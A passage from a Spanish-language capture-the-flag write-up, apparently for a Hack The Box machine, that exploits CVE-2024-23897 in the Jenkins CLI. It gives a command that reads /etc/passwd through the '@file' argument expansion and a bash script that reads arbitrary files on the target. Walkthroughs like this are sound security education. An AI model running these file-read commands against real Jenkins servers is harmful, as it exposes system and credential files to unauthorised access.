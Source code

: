 Jua, candelaaaaaaaaaaaaa oís...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-google-cve_2024_23897.png" style="width: 100%;"/>

La vulnerabilidad `CVE-2024-23897` indica que mediante la herramienta CLI (command line interface, o sea, la de usar en consola) se puede leer archivos arbitrarios del sistema 😳

Esto debido a que la herramienta implementa el uso de la librería **args4j**, la cual mediante la característica **expandAtFiles** puede usar el carácter `@` seguido de un nombre de archivo, para mostrar el contenido de ese archivo 😲

Lo preocupante es que es una característica que está activada por default en la herramienta, veamos si podemos aprovecharnos de ella.

> 🚀 [Trend Micro hizo una excelente guia para entender tooda esta vuln, te la recomiendo](https://www.trendmicro.com/en_us/research/24/c/cve-2024-23897.html).

## Jenkins y los archivos [📌](#explotacion-jenkins-file-read) {#explotacion-jenkins-file-read}

Después de obtener la [herramienta CLI](https://www.jenkins.io/doc/book/managing/cli/) y siguiendo el lindo [artículo de Trent Micro](https://www.trendmicro.com/en_us/research/24/c/cve-2024-23897.html) podemos intentar leer el archivo `/etc/passwd` (contenedor de información de usuarios en el sistema) usando `@/etc/passwd` e invocar un comando propio de la herramienta, logrando así usar el output para ver el contenido del archivo.

Entre todos los comandos posibles, solo algunos devuelven un output grande (`help`, `connect-node`, `reload-job`, entre otros), debemos usar alguno de esos para leer el archivo completo, intentemos con `connect-node`:

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080/' connect-node @/etc/passwd
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-bash-jenkins_cli-cve_2024_23897-etc_passwd.png" style="width: 100%;"/>

EEEEJELE, lo tenemos! Estamos leyendo archivos del sistema, pero tenemos muuucho ruido (información repetida y errores que no nos interesan), jugando con los demás comandos de la herramienta y con un script de bash, obtenemos el output deseado:

```bash
#!/bin/bash

# Obtenemos nombre de archivo como primer parametro y leemos su contenido
output=$(java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080/' "reload-job" @"$1" 2>&1)

# Removemos ruido e imprimimos resultado
result=$(echo "$output" | sed "s/^.*No such item ‘\(.*\)’ exists.*$/\1/")
echo "$result"
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-bash-script_jenkins_cli-cve_2024_23897-etc_passwd.png" style="width: 80%;"/>

Bien, dediquémonos a leer, a ver que aprendemos (:

## Jenkins y los archivos peligrosos [📌](#explotacion-jenkins-file-read-deep) {#explotacion-jenkins-file-read-deep}
